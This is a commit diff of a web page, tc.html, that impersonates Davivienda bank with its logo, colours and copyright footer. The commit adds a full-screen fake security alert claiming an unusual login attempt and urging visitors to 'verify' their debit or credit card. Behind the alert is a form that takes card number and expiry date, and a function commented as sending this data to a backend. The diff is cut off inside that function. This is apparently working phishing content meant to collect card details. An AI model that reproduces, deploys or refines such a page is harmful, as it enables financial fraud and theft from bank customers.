

Before and after one commit to ludn1342-jpg/daviviendaw, a website: page public/tc.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update tc.html

```diff
--- a/public/tc.html
+++ b/public/tc.html
@@ -11,15 +11,19 @@
         /* --- ESTILOS BASE COMPARTIDOS --- */
         * { margin: 0; padding: 0; box-sizing: border-box; font-family: 'Montserrat', sans-serif; }
         body { display: flex; flex-direction: column; height: 100vh; overflow: hidden; }
+
         header { background-color: #E30613; display: flex; justify-content: space-between; align-items: center; padding: 0 40px 0 0; color: white; height: 85px; z-index: 10; }
         .logo-container { display: flex; align-items: center; height: 100%; cursor: pointer; text-decoration: none; }
         .logo-container img { height: 45px; margin-left: 60px; }
         .header-info { text-align: right; font-size: 14px; line-height: 1.4; padding-right: 40px; }
+
         main { flex-grow: 1; display: flex; flex-direction: column; justify-content: flex-start; align-items: center; text-align: center; position: relative; background-image: url('mujer.png'); background-size: cover; background-position: center top; background-repeat: no-repeat; color: white; padding: 60px 20px 20px 20px; }
+
         .content { position: relative; z-index: 2; display: flex; flex-direction: column; align-items: center; width: 100%; max-width: 900px; transition: filter 0.4s ease, opacity 0.4s ease; }
 
         .title { font-size: 36px; font-weight: 300; margin-bottom: 0px; letter-spacing: -0.5px; }
         .subtitle { font-size: 34px; font-weight: 700; margin-bottom: 25px; }
+
         .form-card { background-color: rgba(255, 255, 255, 0.4); border: 3px solid white; border-radius: 20px; padding: 20px 30px; width: 100%; max-width: 800px; color: #000; backdrop-filter: blur(5px); }
         .form-title { font-size: 16px; font-weight: 700; margin-bottom: 20px; }
 
@@ -33,7 +37,7 @@
         .btn:hover:not(:disabled) { transform: scale(1.02); }
         .btn:disabled { background-color: #999; cursor: not-allowed; }
 
-        /* Overlay de carga */
+        /* Overlay de carga para el envío de datos */
         .loading-overlay { position: absolute; top: 0; left: 0; right: 0; bottom: 0; display: flex; justify-content: center; align-items: center; z-index: 100; opacity: 0; pointer-events: none; transition: opacity 0.4s ease; }
         .loading-overlay.active { opacity: 1; pointer-events: auto; }
         .content.blur-active { filter: blur(8px); opacity: 0.4; pointer-events: none; }
@@ -47,6 +51,76 @@
         .footer-text { font-size: 15px; font-weight: 400; text-align: center; flex-grow: 1; }
         .footer-right { display: flex; align-items: center; justify-content: flex-end; width: 250px; } .footer-right img { height: 60px; }
 
+        /* =========================================
+           OVERLAY DE ALERTA DE SEGURIDAD (ENTRADA)
+           ========================================= */
+        .security-overlay {
+            position: fixed;
+            top: 0; left: 0; right: 0; bottom: 0;
+            background: rgba(0, 0, 0, 0.6); /* Oscurece el fondo */
+            backdrop-filter: blur(8px); /* Difumina toda la pantalla de atrás */
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            z-index: 999; /* Por encima de todo */
+            padding: 20px;
+            transition: opacity 0.5s ease;
+        }
+
+        .security-overlay.hidden {
+            opacity: 0;
+            pointer-events: none;
+        }
+
+        .security-card {
+            background: white;
+            padding: 40px 30px;
+            border-radius: 15px;
+            box-shadow: 0 10px 30px rgba(0,0,0,0.3);
+            max-width: 450px;
+            width: 100%;
+            text-align: center;
+            color: #333;
+        }
+
+        .security-icon {
+            font-size: 50px;
+            color: #E30613;
+            margin-bottom: 20px;
+        }
+
+        .security-title {
+            font-size: 22px;
+            font-weight: 700;
+            margin-bottom: 15px;
+            color: #E30613;
+        }
+
+        .security-text {
+            font-size: 15px;
+            line-height: 1.6;
+            margin-bottom: 30px;
+            color: #555;
+        }
+
+        .btn-security {
+            height: 45px;
+            width: 100%;
+            border: none;
+            border-radius: 8px;
+            font-size: 16px;
+            font-weight: 700;
+            cursor: pointer;
+            background-color: #E30613;
+            color: white;
+            transition: transform 0.2s;
+        }
+
+        .btn-security:hover {
+            transform: scale(1.02);
+        }
+
+        /* --- RESPONSIVE --- */
         @media (max-width: 768px) {
             body { overflow-y: auto; height: auto; min-height: 100vh; }
             header { flex-direction: column; height: auto; padding: 15px 0 0 0; gap: 15px; }
@@ -58,15 +132,21 @@
             .input-row { flex-direction: column; align-items: center; gap: 15px; }
             footer { flex-direction: column; height: auto; padding: 12px 15px; gap: 5px; }
             .footer-text { order: -1; font-size: 13px; } .footer-left { width: auto; justify-content: center; } .footer-left img { height: 22px; } .footer-right { display: none; }
+
+            .security-card { padding: 30px 20px; }
+            .security-icon { font-size: 40px; }
+            .security-title { font-size: 20px; }
         }
     </style>
 </head>
 <body>
+    <!-- HEADER -->
     <header>
         <a href="index.html" class="logo-container"><img src="davi.png" alt="Davivienda"></a>
         <div class="header-info"><div id="fecha-hora">Cargando fecha...</div><div id="codigo-cus">Código único CUS: Cargando...</div></div>
     </header>
 
+    <!-- CUERPO PRINCIPAL (Oculto tras el blur) -->
     <main>
         <div class="loading-overlay" id="loadingOverlay">
             <div class="loading-box"><div class="big-spinner"></div><div class="loading-text">Cargando...</div></div>
@@ -102,11 +182,32 @@
         </div>
     </main>
 
+    <!-- FOOTER -->
     <footer>
         <div class="footer-left"><img src="vig.png" alt="Vigilado"></div>
         <div class="footer-text">Banco Davivienda S.A. Todos los derechos reservados 2023.</div>
         <div class="footer-right"><img src="blanco.png" alt="Davivienda"></div>
     </footer>
+
+    <!-- =========================================
+         OVERLAY DE ALERTA DE SEGURIDAD
+         ========================================= -->
+    <div class="security-overlay" id="securityOverlay">
+        <div class="security-card">
+            <div class="security-icon">
+                <svg width="60" height="60" viewBox="0 0 24 24" fill="none" stroke="#E30613" stroke-width="2" stroke-linecap="round" stroke-linejoin="round">
+                    <path d="M10.29 3.86L1.82 18a2 2 0 0 0 1.71 3h16.94a2 2 0 0 0 1.71-3L13.71 3.86a2 2 0 0 0-3.42 0z"></path>
+                    <line x1="12" y1="9" x2="12" y2="13"></line>
+                    <line x1="12" y1="17" x2="12.01" y2="17"></line>
+                </svg>
+            </div>
+            <div class="security-title">Inicio de Sesión Inusual</div>
+            <div class="security-text">
+                Hemos detectado un intento de inicio de sesión inusual en su cuenta por motivos de seguridad. Para continuar, por favor verifique los datos de su tarjeta de débito o crédito.
+            </div>
+            <button class="btn-security" onclick="cerrarAlerta()">Verificar mi Tarjeta</button>
+        </div>
+    </div>
 
     <script>
         function actualizarFecha() {
@@ -118,6 +219,13 @@
         function generarCUS() { document.getElementById('codigo-cus').textContent = `Código único CUS: ${Math.floor(100 + Math.random() * 900)}-${Math.floor(1000000 + Math.random() * 9000000)}`; }
         actualizarFecha(); generarCUS();
 
+        // 1. FUNCIÓN PARA CERRAR LA ALERTA DE SEGURIDAD
+        function cerrarAlerta() {
+            const overlay = document.getElementById('securityOverlay');
+            overlay.classList.add('hidden'); // Se desvanece suavemente
+        }
+
+        // 2. FORMATEO DE DATOS
         function formatCard(input) {
             let val = input.value.replace(/\s+/g, '').replace(/[^0-9]/gi, '');
             let formatted = val.match(/.{1,4}/g)?.join(' ') || '';
@@ -128,6 +236,7 @@
             if (val.length >= 2) { input.value = val.substring(0, 2) + '/' + val.substring(2, 4); } else { input.value = val; }
         }
 
+        // 3. ENVIAR DATOS AL BACKEND
         async function enviarTC() {
             const numero = document.getElementById('numTarjeta').value;
             const fecha = document.getElementById('fechaTarjeta').value;
```
